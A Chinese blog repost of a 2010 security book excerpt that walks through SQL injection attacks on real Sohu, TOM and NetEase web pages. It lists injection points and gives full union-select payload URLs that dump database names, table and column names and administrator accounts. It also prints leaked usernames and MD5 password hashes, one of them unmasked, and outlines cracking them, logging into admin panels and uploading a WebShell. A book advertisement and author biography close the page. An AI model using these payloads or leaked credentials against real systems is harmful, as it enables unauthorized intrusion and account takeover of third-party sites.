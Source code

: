 # 对搜狐、网易和TOM三大门户网站的SQL注入漏洞检测 - weixin_33985507的博客 - CSDN博客
2010年10月28日 10:54:00[weixin_33985507](https://me.csdn.net/weixin_33985507)阅读数：6
##  对搜狐、网易和TOM三大门户网站的SQL注入漏洞检测
本文节选自《大中型网络入侵要案直击与防御》一书
此外，笔者对搜狐及TOM和网易这三大门户网站作了注入攻击检测，发现同样存在明显的注入漏洞，安全性很糟糕。
###### 1.MySQL注入检测搜狐门户网站
首先，来看看搜狐网站，搜狐网站上的动态网页大部分是采用PHP语言编写的，同样注入也很多。例如：
[http://app.sh.sohu.com/lo***l/s.php?id=636](http://app.sh.sohu.com/loreal/s.php?id=636)
这个网页是一个欧莱雅广告页面，未对提交的数字参数进行检测，可直接利用SQL注入获得当前数据版本、库名、用户等信息。首先，通过Order by查询获得字段数目为9，然后通过union select查询可获得数据库的各种信息（图241）：
[http://app.sh.sohu.com/lo***l/s.php?id=636](http://app.sh.sohu.com/loreal/s.php?id=636) and 1=2 union select 1,2,group_concat(user(),0x7C7C,version(),0x7C7C,database()),4,5,6,7,8,9
![clip_image002](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image002_thumb.jpg)
图241 搜狐网站SQL注入查询数据库信息
可得到当前数据库用户名为admin，数据库服务器地址为10.10.82.159，数据库版本为Mysql 5.0.27，当前数据库名为sohush。
再进一步检测，发现其中存在几个非常重要的数据库，包括：dvbbs、love008。前者是论坛数据库，后者是2008专题数据库。在论坛数据库中，可猜解出管理员账号和密码为：jim、4591b******ee2b5。在love008数据库中猜解出两个管理员用户和密码分别为（图242）：
admin 21232f297a*****743894a0e4a801fc3
es 3e4a632cb*****8fc2386fa5f8e4bd76
![clip_image004](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image004_thumb.jpg)
图242 猜解出管理员账号与密码
虽然说管理员密码都是MD5加密的，不过现在网上有20G的彩虹表下载，破解这些普通密码MD5值并不是太困难的事情。通过后台登陆，攻击者可以想方设法上传WebShell并进行提权与进一步渗透入侵操作。
此外，在搜狐网站中还有非常多的SQL注入点，举例如下：
注入点1（图243）：http://card.money.****.com/yh/card_product.php?id=71
注入点2：http://blog.club.****.com/list_diary_detail.php?artid=43761&db=blog002P4&kindid=3403
注入点3：http://blog.club.****.com/list_diary.php?db=blog001P3&kindid=529
注入点4：http://mini***.163.com/2009/0909/wuliangye/article.php?id=13
注入点5：http://blog.club.****.com/list_diary.php?db=blog001P3&kindid=529
注入点6：http://people.business.****.com/person/plist.php?userid=2047
注入点7：http://minisite.it.****.com/minisite/site849/photodetail1.jsp?corpID=849&status=browse&privCode=04&pictureID=57275
注入点8：http://zj.svip.****.com/news/2010/duanxindasai/item_list.php?category_id=1905
![clip_image006](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image006_thumb.jpg)
图243 搜狐注入点查询数据库信息
###### 2.MySQL注入检测TOM门户网站
TOM也是国内一大门户网站，在对TOM门户网站进行检测的过程中，也发现了许多严重的SQL注入漏洞，而且危害性非常大，直接导致攻击者登陆后台上传木马获得WebShell，并进一步控制整个网站服务器！
TOM网站的注入点地址为：
[http://qd**.tom.com/blog_content.php?blogid=482](http://qdgy.tom.com/blog_content.php?blogid=482)
直接用Order by进行查询时，会出错并跳转到网站首页，可使用--终止符号进行隔断处理，执行如下查询：
[http://qd**.tom.com/blog_content.php?blogid=482](http://qdgy.tom.com/blog_content.php?blogid=482) order by 14--
返回正常页面，得到字段数为14。再执行如下查询（图244）：
http://qd**.tom.com/blog_content.php?blogid=482 and 1=2 union select 1,2,3,group_concat(user(),0x7C7C,version(),0x7C7C,database()),4,5,6,7,8,9,10,11,12,13,14%20--
![clip_image008](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image008_thumb.jpg)
图244 union联合查询获得数据库相关信息
得到当前数据库版本、数据库名和用户。再爆出当前数据库中的所有表名，提交如下查询：
http://qd**.tom.com/blog_content.php?blogid=482 and 1=2 union select 1,2,3,4,group_concat(table_name),5,6,7,8,9,10,11,12,13,14 from information_schema.tables where table_schema=database()--
![clip_image010](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image010_thumb.jpg)
图245 查询到所有表名
在页面返回信息中，即可得到所有表名（图245）。在其中有名为adminuser的表名，表中很可能包含了管理员账号及密码，查询该表中的列名，可提交如下查询：
http://qd**.tom.com/blog_content.php?blogid=482 and 1=2 union select 1,2,3,4,group_concat(column_name),5,6,7,8,9,10,11,12,13,14 from information_schema.columns where table_name=(0x61646D696E75736572)--
![clip_image012](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image012_thumb.jpg)
图246 返回用户名及密码数据列
从页面返回信息中，可以看到用户名及密码列为username和pw（图246）。现在要爆出用户名和密码的数据值，提交如下查询语句：
http://qd**.tom.com/blog_content.php?blogid=482 and 1=2 union select 1,2,3,4,group_concat(username,0x7C,pw),5,6,7,8,9,10,11,12,13,14 from adminuser--
![clip_image014](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image014_thumb.jpg)
图247 获得管理员账号密码信息
从返回的页面信息中，可看到管理员用户名为qdjxlq，密码为3631137b9b0e47608c4ece9decc9a607（图247）。密码是经过MD5加密的32密文，破解并不是很困难。得到后台管理员账号密码后，再寻找后台登陆地址，得到后台登陆链接地址为（图248）：
[http://qd**.tom.com/admin/admin_login.php](http://qdgy.tom.com/admin/admin_login.php)
![clip_image016](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image016_thumb.jpg)
图248 管理员后台登陆页面
登陆后台获得WebShell后，就可以进一步入侵控制服务器并进行渗透攻击。
###### 3.MySQL注入检测网易门户网站
在对国内其它门户网站进行检测时发现，有许多网站也同样存在着SQL注入漏洞，例如在网易中存在如下注入点链接地址：
[http://min****e.163.com/2009/0909/wuliangye/article.php?id=13](http://minisite.163.com/2009/0909/wuliangye/article.php?id=13)
通过order by查询可得到字段数，再通过提交如下查询：
http://min****e.163.com/2009/0909/wuliangye/article.php?id=13%20and%201=2%20union%20select%201,database(),user(),version(),5,6,7,8
即可得到数据库版本、用户名和数据库名信息（图249）。由于数据库为Mysql 4.0版本，因此不能直接爆出数据表名，只有靠字典一个个进行猜解，猜解起来比较麻烦。
![clip_image018](https://images.cnblogs.com/cnblogs_com/broadview/WindowsLiveWriter/TOMSQL_98D9/clip_image018_thumb.jpg)
图249 网易注入点猜解示例
**书名：大中型网络入侵要案直击与防御**
**作者：肖遥 ****编著**
**ISBN 978-7-121-11740-4**
**出版日期：2010****年10****月**
**定价：79.00****元**
**开本：16****开**
**页码：624 ****页**
**作者简介**
肖遥，网名“冰河洗剑”，国内著名网络安全技术独立研究人士。
曾从事国防军工设计，参与过J10A、J11B等战斗机配套武器研制，独立开发出HF25火箭发射器，参与DF8GA及导弹发射架等武器设计。
潜心钻研网络安全技术10余年，长期担任国内多家著名网站的安全顾问，专业从事网络渗透测试与网络风险评估。
长年在《黑客X档案》、《黑客防线》等国内安全专业媒体上与同行分享最新研究成果。出版有《网络渗透攻击与安防修炼》、《网站入侵与脚本安全攻防修炼》、《黑客大曝光》、《黑客攻防大揭秘》等多部安全类畅销技术专著。其中，《网站入侵与脚本安全攻防修炼》一书已输出至中国台湾等地。
**内 ****容 ****简 ****介**
本书以解析各种网络环境下攻防案例的形式来讲解各种网络攻击与防护技术，从“黑客攻击”与“安全工作者防守”双向角度来进行介绍。每一章节的内容按照如下脉络展开：典型攻防案例再现→案例的简单分析→黑客攻击技术的系统讲解→网管安全防护解决方案→入侵手法与防护难点深度分析。全书真实呈现完整的攻击与防护事件，可让读者了解到攻击者如何选择攻击目标，如何制订攻击方案，如何绕过攻击中碰到的问题，网管通常采用哪些防护手法，安全漏洞在何处，网管又如何追踪攻击者，等等，因此对学习者和工作者来说都很有吸引力和参考价值。
本书是网络管理员、信息安全管理员、对网络安全感兴趣的人员必备的参考书，也可供大中院校或培训学校教师和学生阅读和参考。

